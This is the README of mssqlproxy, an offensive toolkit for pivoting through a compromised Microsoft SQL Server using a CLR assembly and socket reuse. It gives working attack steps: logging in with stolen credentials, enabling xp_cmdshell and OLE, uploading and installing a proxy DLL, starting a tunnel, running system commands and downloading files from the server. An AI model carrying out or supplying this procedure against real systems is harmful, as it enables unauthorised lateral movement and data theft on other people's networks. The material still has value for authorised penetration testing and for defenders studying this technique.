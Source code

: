 # mssqlproxy

**mssqlproxy** is a toolkit aimed to perform lateral movement in restricted environments through a compromised Microsoft SQL Server via socket reuse. The client requires [impacket](https://github.com/SecureAuthCorp/impacket) and **sysadmin** privileges on the SQL server.


Please read [this article](https://www.blackarrow.net/mssqlproxy-pivoting-clr/) carefully before continuing.

```
proxy mode:
  -reciclador path      Remote path where DLL is stored in server
  -install              Installs CLR assembly
  -uninstall            Uninstalls CLR assembly
  -check                Checks if CLR is ready
  -start                Starts proxy
  -local-port port      Local port to listen on
  -clr local_path       Local CLR path
  -no-check-src-port    Use this option when connection is not direct (e.g. proxy)
```

We have also implemented two commands (within the SQL shell) for downloading and uploading files. Relating to the proxy stuff, we have four commands:

* **install**: Creates the CLR assembly and links it to a stored procedure. You need to provide the `-clr` param to read the generated CLR from a local DLL file.
* **uninstall**: Removes what **install** created.
* **check**: Checks if everything is ready to start the proxy. Requires to provide the server DLL location (`-reciclador`), which can be uploaded using the **upload** command.
* **start**: Starts the proxy. If `-local-port` is not specified, it will listen on port 1337/tcp.
[![asciicast](https://asciinema.org/a/298949.svg)](https://asciinema.org/a/298949)

**Note #1:** if using a non-direct connection (e.g. proxies in between), the `-no-check-src-port` flag is needed, so the server only checks the source address.

**Note #2:** at the moment, only IPv4 targets are supported (nor DNS neither IPv6 addresses).

**Note #3:** use carefully! by now the MSSQL service will crash if you try to establish multiple concurrent connections

**Important:** It's important to stop the mssqlproxy by pressing Ctrl+C on the client. If not, the server may crash and you will have to restart the MSSQL service manually.

Example
------------

Prepare
```bash
mv assembly.dll Microsoft.SqlServer.Proxy.dll
python3 mssqlclient.py $username:$password@$ip_mssql
SQL> enable_xp_cmdshell
SQL> enable_ole
SQL> upload reciclador.dll c:\windows\temp\reciclador.dll
SQL> exit
```

Proxy
```bash
python3 mssqlclient.py $username:$password@$ip_mssql -install -clr Microsoft.SqlServer.Proxy.dll
python3 mssqlclient.py $username:$password@$ip_mssql -check -reciclador 'c:\programdata\reciclador.dll'
python3 mssqlclient.py $username:$password@$ip_mssql -start -reciclador 'c:\programdata\reciclador.dll'
```

xp_cmdshell
```bash
SQL> xp_cmdshell whoami /all
```
download file
```
download c:\xx.zip xx.zip
```


License
-------

All the code included in this project is licensed under the terms of the GPL license. The mssqlclient.py is based on [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py).

